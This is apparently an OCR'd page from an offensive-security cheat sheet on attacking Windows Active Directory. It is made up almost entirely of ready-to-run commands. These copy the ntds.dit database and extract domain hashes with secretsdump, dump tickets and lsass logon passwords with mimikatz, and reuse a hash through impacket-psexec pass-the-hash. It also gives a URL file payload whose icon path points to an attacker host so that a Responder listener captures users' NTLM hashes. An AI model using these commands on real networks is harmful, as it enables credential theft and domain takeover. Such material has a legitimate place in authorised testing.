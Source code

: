 - Exporting AD member hashes

```cmd
REM create a snapshot
ntdsutil snapshot "activate instance ntds" create quit quit
REM mount a snapshot
ntdsutil "activate instance ntds" snapshot "mount {GUID}" quit quit
REM copy file
copy C:\$SNAP_{X}_VOLUMEC$\windows\NTDS\ntds.dit c:\users\administrator\desktop\ntds.dit
```

download ntds.dit to our pc

```shell
secretsdump.py -ntds /tmp/ntds.dit -system /tmp/SYSTEM local -outputfile /tmp/ADHashes.txt
```

- Dumping tickets

```
sekurlsa::tickets
```

- Dumping credentials from lsass

```cmd
.\mimikatz.exe "log" "privilege::debug" "sekurlsa::logonpasswords" "exit"
```

- Pass the Hash

We can also reuse the same hash.

```shell
impacket-psexec "Administrator":@10.10.10.10 -hashes ":8846f7eaee8fb117ad06bdd830b7586c"
# reuse
impacket-psexec "Administrator":@10.10.10.11 -hashes ":8846f7eaee8fb117ad06bdd830b7586c"
```

### :open_file_folder: URL File Attack

https://www.hackingloops.com/url-file-attack-and-printnightmare/

Add the symbol "@" or "~" at the beginning of the file name, and the file extension is "url".

```shell
sudo responder -I tun0 -A -v
```

Upload our payload `@test.url` to a possible path.

```
[InternetShortcut]
URL=anything
WorkingDirectory=anything
IconFile=\\<attacker ip>\%USERNAME%.icon
IconIndex=1
```

### :open_file_folder: Vulnerabilities
